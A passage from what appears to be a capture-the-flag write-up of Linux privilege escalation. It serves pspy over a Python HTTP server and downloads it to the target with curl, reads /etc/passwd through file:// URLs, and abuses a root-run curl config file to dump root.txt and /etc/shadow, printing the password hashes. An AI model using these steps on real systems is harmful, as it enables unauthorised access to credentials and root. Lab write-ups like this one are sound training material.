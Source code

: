 	python -m SimpleHTTPServer 80		// Python
	python3	-m http.server 80			// Python 3

Download to target system:

	curl 10.10.17.201/pspy64s -o pspy64s

Spy on processes:

```
./pspy64s -fc	// -f 	print file system events
				// -c	color
```

### Use curl to retrieve files from arbitrary locations

	curl file:///etc/passwd

```
lightdm:x:132:140:Light Display Manager:/var/lib/lightdm:/bin/false
kali:x:1000:1000:Kali,,,:/home/kali:/usr/bin/zsh
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
```

	echo 'url = "file:///root/root.txt"' > input 
	watch -n 1 cat report

`82c198ab6fc5365fdc6da2ee5c26064a`

```bash
echo 'url = "file:///etc/shadow"' > input 
watch -n 1 cat report
```

	root:$6$RIgrVboA$HDaB29xvtkw6U/Mzq4qOHH2KHB1kIR0ezFyjL75DszasVFwznrsWcc1Tu5E2K4FA7/Nv8oje0c.bljjnn6FMF1:17673:0:99999
	:7:::
	floris:$6$yl7KKyGaOhVExlCb$ONJceChbI7srpLlJ/AhCLgESU7E4gXexPVgsJMjvQ0hP.6fwslfwWmD15cuaYs9./Jin4e/4LURPgEBav4iv//:176
	73:0:99999:7:::

### Get root

	man curl
	
```
-K, --config <file>
Specify a text file to read curl arguments from. The command line arguments found in the text file will be used as if they were provided on the command line.
```

```
# --- Example file ---
		# this is a comment
		url = "example.com"
		output = "curlhere.html"
		user-agent = "superagent/1.0"
```
